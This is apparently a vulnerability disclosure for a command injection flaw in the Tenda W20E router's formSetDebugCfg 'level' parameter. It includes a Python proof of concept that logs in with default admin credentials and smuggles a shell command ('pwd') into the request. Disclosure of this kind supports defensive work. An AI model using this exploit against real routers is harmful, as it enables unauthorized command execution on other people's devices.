

## Tenda W20E command injection

### Overview

* Vendor: Tenda

* Product: Tenda W20E
* Version: V15.11.0.6

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/W20E/US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC.zip

### Vulnerability details

Tenda W20E V15.11.0.6 was found to contain a command injection vulnerability in the `formSetDebugCfg` function via the `level` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.



#### PoC

```
import requests

cmd  = 'enable=2'
cmd += '&level='+ '1;pwd;'
cmd += '&module=httpd'

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/formSetDebugCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

